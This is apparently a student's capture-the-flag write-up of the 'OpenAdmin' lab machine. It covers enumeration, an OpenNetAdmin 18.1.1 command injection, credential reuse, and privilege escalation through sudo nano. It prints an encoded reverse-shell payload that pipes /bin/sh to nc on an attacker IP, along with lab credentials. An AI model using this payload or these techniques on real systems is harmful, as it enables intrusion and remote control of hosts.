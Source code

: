 # <span style="color:#f8b7f8">Machine #14 OpenAdmin</span>  


## <span style="color:#f8b7f8">Notes During Working on the Machine 🧐🤓   

* In this path `http://10.129.170.143/artwork/` found a website.
* I will try and gobuster the previous path see what I get.
* The root opens the default page for Apache.  
* In the website I found "Arcwork" I found a form that when the button is pressed in it it sends a post request but without the input which I think means it's as useful as a bag of chips to break the website.  
* The form in `/sierra` sends parameters in the post which means it might be exploitable in a way MAYBE. In this path `/sierra/contact_process.php` the post takes place.  
* Emails I found  
  * contact@sierracompany.com (In the sierra website).
  * hello@mydomain.com (Arcwork website).  
* In the last website `/music` I found something interesting when I pressed "login" it opened this url `http://10.129.170.143/ona/` which opened something weird called openNetAdmin which seems like it's obviously key to solving the machine.
* Found a dns domain. I'm gonna try and put it in hosts.
* OpenNetAdmin version ==> OpenNetAdmin - v18.1.1.
* I was able to login as "admin/admin" in the opennetadmin.
* It seems that the exploit I found for this version of openNetAdmin takes advantage of the "IP Calculator".  
* Exploit's payload  
  ```console
  xajax=window_submit&xajaxr=1643382750871&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.74%204444%20%3E%2Ftmp%2Ff&xajaxargs[]=ping%22%20%22http%3A%2F%2F10.129.170.143%2Fona%2F  
  ```

* Found a credential for the database 
  ```console
   'db_type' => 'mysqli',
          'db_host' => 'localhost',
          'db_login' => 'ona_sys',
          'db_passwd' => 'n1nj4W4rri0R!', // turns out this is jimmy's password
          'db_database' => 'ona_default',
          'db_debug' => false,
  ```

* Found another password for jimmy `Revealed` it was hashed with sha 512 and I was able to crack it easily anyway what do I need it for?  

* `/etc/sudoers.d/joanna:joanna ALL=(ALL) NOPASSWD:/bin/nano /opt/priv`  


  ```
  lrwxrwxrwx 1 root root 32 Nov 22  2019 /etc/apache2/sites-enabled/internal.conf -> ../sites-available/internal.conf                                                 
      ServerName internal.openadmin.htb
  lrwxrwxrwx 1 root root 33 Nov 22  2019 /etc/apache2/sites-enabled/openadmin.conf -> ../sites-available/openadmin.conf                                               
          ServerName openadmin.htb
  ```  

* I was able to get joanna's key by executing this 
  ```console
  curl -X POST -F 'username=jimmy' -F 'password=Revealed' -F 'login=' http://localhost:52846/main.php
  ```
But I'm not able to use the passphrase yettt which is frustrating and a reverse shell is not working.

<br/><br/>



## <span style="color:#f8b7f8">How Did I Solve the Machine 😎🥳 

1. After enumerating the machine I found a webpage that is an ona with a vulnerable version to an exploit that was easily implemented so I didn it and got www-data.
2. Then I got jimmy with more enumeration when I found this password in some file written in plain text.
3. This left me with trying to priv esc to joanna (horizontally).
4. I found an internal webserver on a weird port and realizing that joanna was the one executing it I manipulated the ssh files instead of brute forcing the passphrase for her own private key and got her.
5. After that there was an easy way of getting a rev shell with root when nano is executed with sudo.   

## <span style="color:#f8b7f8">Where I Got Stuck?😡😧  
* When I was trying to priv esc to joanna.
* It took me time to find the internal web server.
* And when I found it I kept trying to spawn a reverse shell but it didn't work. Still dunno why.

## <span style="color:#f8b7f8">What Did I learn from this Machine?👀  

* OpenNetAdmin  
  <blockquote>
  OpenNetAdmin is a Network Management application that provides a database of managed inventory of IPs, subnets, and hosts in a network with a centralized AJAX web interface. The application is an Opensource written in PHP; you can view the source code on GitHub “ONA Project.”
  </blockquote>

  ### <span style="color:#f8b7f8">Old Software  
  * The ona version was old and it was the specific version that had that specific easy exploit. Even if it did not have a specific exploit software should always be kept up-to-date.  

  ### <span style="color:#f8b7f8">Sudo nano (or any text editor, really)  
  * The ability to sudo a text editor shouldn't be taken easily because as we saw in the machine you just write a few characters into `nano` and then BOOM you get root.  

  ### <span style="color:#f8b7f8">Bad Privileges on files  
  * Which I think falls under file misconfiguration in our case was the ability to edit the files of the internal web server that allowed me to run any command I wanted as joanna and consequently escalating my privilege to her which led me to escalate my privilege to root.  


## <span style="color:#f8b7f8">Writeups ✍🏽📓   

### <span style="color:#f8b7f8">ippsec  

* So first he tried to look for a "robot.txt" file because it could lead to something if it existed.
* He tried to check if the backend was php by trying "index.php" if "index.html" existed.
* Looked at the source code of the websites he found to see if he can find the software that is used to make the website.
* He checked the source of the page to check what is the type of the content management system that is being used.  
* Carousel is a popular wordpress plugin.  
* He made an HTML page with `python -m http.server 80` to run the exploit that is expecting us to "make an html page".  
* Don't jump straight into a dangerous command with command injection, try a simple, useless one first.  
* We can test for a firewall if we `nc [MY IP] [PORT]` we can check if a firewall is blocking us.   

### <span style="color:#f8b7f8">0xdf's Writeup  

* He used a webshell and then made a rev shell.

<!-- @nested-tags:old_software/machines/openadmin,file_misconfiguration/machines/openadmin-->